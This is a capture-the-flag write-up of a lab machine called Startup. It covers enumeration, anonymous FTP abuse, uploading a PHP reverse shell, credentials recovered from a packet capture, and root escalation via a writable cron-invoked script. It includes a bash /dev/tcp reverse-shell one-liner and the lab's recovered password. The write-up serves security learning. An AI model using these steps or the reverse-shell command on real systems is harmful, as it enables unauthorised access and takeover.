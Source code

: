 # Startup

##### Written: 17/09/2021

##### IP Address: 10.10.96.254

---

### [ What is the secret spicy soup recipe? ]

First, let's run a basic **nmap** scan on our target machine using the follow command:

```
sudo nmap -sC -sV -vv 10.10.96.254
```

Results:

<img style="float: left;" src="screenshots/screenshot1.png">

As we can see, there are 3 ports currently open on the machine:

* 21 - FTP Server
* 22 - SSH Server
* 80 - HTTP Server

We can also see that the FTP server allows for **anonymous login**! This is a misconfiguration that can be commonly found on FTP servers, allowing us to access the files within the server without a password.

Let's login to the FTP server. We use the username: **anonymous** and do not need to supply a password.

<img style="float: left;" src="screenshots/screenshot2.png">

We find two files: **important.jpg** and **notice.txt**. There is also a **ftp** directory, although there seems to be nothing inside. Now let's download those files to our local machine using the command:

```
get < file_name >
```

<br>

Contents of **notice.txt**:

<img style="float: left;" src="screenshots/screenshot3.png">

Looks like some fluff about Among Us memes :sweat_smile:. There is also mention of **Maya**. We can note this down as it could be a potential username that we can use later on.

<br>

Next, we can open **important.jpg**, but it will give us the following error:

<img style="float: left;" src="screenshots/screenshot4.png">

Let's check the file format to find out what type of file this really is. We can do so by checking the **file signature**, which are also known as **magic numbers** or **magic bytes**. To do so, we use **hexeditor** like so:

```
hexeditor < file_name >
```

<img style="float: left;" src="screenshots/screenshot5.png">

Here, we can see the first few lines of hexadecimal characters that make up the file. The magic bytes will always be placed at the very beginning of the file. Looking at the following wikipedia page: 

https://en.wikipedia.org/wiki/List_of_file_signatures#:~:text=This%20is%20a%20list%20of,its%20contents%20will%20be%20unintelligible

<img style="float: left;" src="screenshots/screenshot6.png">

We can see that the file is actually a **PNG** file (*89 50 4E 47 0D 0A 1A 0A*). Now we just have to change the file extension of important.jpg to **important.png** and we should be able to view it.

Contents of **important.png**:

<img style="float: left;" src="screenshots/screenshot7.png">

Found the Among Us meme! While the content does not seem especially interesting, perhaps we can check for steganography by using **zsteg**:

```
zsteg < file_name >
```

Results:
<img style="float: left;" src="screenshots/screenshot8.png">





I'm not well-versed with steganography, but I believe that there is nothing that we can use from these results. Hitting a dead end here, let's go ahead and explore the other services that are currently running on our target.

<br>

When we visit the web server, we are greeted with the following page:

<img style="float: left;" src="screenshots/screenshot9.png">

There is a **'contact us'** link that opens the **mailto** functionality:

<img style="float: left;" src="screenshots/screenshot10.png">

From this Wikipedia page: https://en.wikipedia.org/wiki/Mailto, I learnt that **mailto** is a Uniform Resource Identifier (URI) scheme for email addresses. It is used to produce hyperlinks on websites that allow users to send an email to a specific address directly from an HTML document, without having to copy it and entering it into an email client. 

It would also seem that the **mailto** has not been properly configured as it points to **#**, instead of an email address. Looking at the source code of the page, we can confirm this as the developer has left a comment:

<img style="float: left;" src="screenshots/screenshot11.png">

At first, I thought that we would be exploiting a vulnerability with this **mailto** functionality. However, after doing some research online, I was unable to find a vulnerability that could be used for this room. (There were a variety of vulnerabilities that do exist though!)

<br>

Next, we can run a **Gobuster** scan to try and find any hidden directories on this web server:

```
gobuster dir -u http://10.10.96.254/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Results of scan:

<img style="float: left;" src="screenshots/screenshot12.png">

There is a **/files** directory on the web server! Visiting this directory, we are brought to the FTP directory from earlier.

<img style="float: left;" src="screenshots/screenshot13.png">

Great! This means that we can upload a **reverse shell** script onto the FTP server and then execute it from this web directory, granting us access into the machine. 

We will be using the **PHP** **reverse shell** script created by **pentestmonkey**. To upload the script onto the FTP server, we use the following command:

```
put <file_name>
```

<img style="float: left;" src="screenshots/screenshot14.png">

After doing so, we can see that the script has been successfully uploaded on the **ftp** directory within the FTP server. Now, we just have to run a **netcat listener** and open the script within the web browser.

**netcat** command:

```
nc -lvnp 1234
```

<br>

Gaining access :smiling_imp: :

<img style="float: left;" src="screenshots/screenshot15.png">

<br>

<img style="float: left;" src="screenshots/screenshot16.png">

In the **/** directory, we can find the **recipe.txt** file, which gives us flag to the first question:

<img style="float: left;" src="screenshots/screenshot17.png">

The secret soup recipe is **love**.

---

### [ What are the contents of user.txt? ]

Within the **/** directory, we can also see an interesting directory called **incidents**. The directory contains a **pcap** file called **suspicious.pcapng**:

<img style="float: left;" src="screenshots/screenshot18.png">

Let's go ahead and download this file onto our local machine and open it up in **Wireshark**!

<br>

<img style="float: left;" src="screenshots/screenshot19.png">

We will need to sieve through the captured packets to see if we can obtain any usable information such as passwords. Firstly, let's check out the **HTTP** traffic captured, as that is unencrypted and could reveal some credentials:

<img style="float: left;" src="screenshots/screenshot20.png">

There are only a few HTTP packets and none of them contain any credentials. With that said, it seems as if someone prior had already conducted the same attack as us, having uploaded their own reverse shell onto the FTP server.

<br>

Next, let's look at **TCP** traffic. We can simple **right-click** on any of the TCP packets and click on **Follow** > **TCP Stream**. 

<img style="float: left;" src="screenshots/screenshot21.png">

Nice! We've found a potential username and password -> **lennie:c4ntg3t3n0ughsp1c3**

With this credentials, we can try to log into the **SSH** server:

<img style="float: left;" src="screenshots/screenshot22.png">

And we're in! We can then obtain **user.txt**.

---

### [ What are the contents of root.txt? ]

Within Lennie's home directory, there are two interesting directories: **Documents** and **scripts**.

Looking at **Documents**, there are 3 text files: **concern.txt**, **list.txt** and **note.txt**. These files did not seem to contain anything that we can use to escalate our privileges.

Next, in the **scripts** directory, there is a **planner.sh** script and **startup_list.txt** file. What's interesting to note is that both of these files are owned by **root**.

<img style="float: left;" src="screenshots/screenshot23.png">

Since we can read **planner.sh** as a non-root user, we can find out what it does:

<img style="float: left;" src="screenshots/screenshot24.png">

It looks like it echoes the contents of **$LIST** into **startup_list.txt**, before running **/etc/print.sh**. Let's now take a look at **/etc/print.sh**.

<img style="float: left;" src="screenshots/screenshot25.png">

All it does is **echo "Done!"**. With that said, **print.sh** actually belongs to **Lennie**! This means that we are able to write over it and since it's a bash script, we can have it execute anything we want, such as opening a **reverse shell**. We'll be using the **bash** reverse shell from: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
bash -i >& /dev/tcp/<IP_ADDRESS_HERE>/<PORT_HERE> 0>&1
```

Now, we just have to figure out how we can execute **planner.sh** as **root**, which will then subsequently execute **print.sh** and open  up the reverse shell with root privileges.

<br>

At this point, I had an inkling that **planner.sh** was most probably being run as a **cronjob** by root. To verify this, we can use a nifty program called **pspy** (https://github.com/DominicBreuker/pspy/blob/master/README.md), which allows us to snoop on processes without the need for root permissions. This tool will tell us what cronjobs root is running without needing root permissions. 

After uploading the **pspy32** executable onto the SSH server, we can then execute it:

<img style="float: left;" src="screenshots/screenshot26.png">

As we can see, the **planner.sh** was automatically run with the UID=0 (root). This confirms that it is indeed a cronjob belonging to root!

Now, all we have to do is set up our netcat listener, sit back and relax.

<br>

<img style="float: left;" src="screenshots/screenshot27.png">

**After a few seconds, our reverse shell is successfully opened and we are logged into the server as root. With that, we can obtain root.txt and complete the room.**


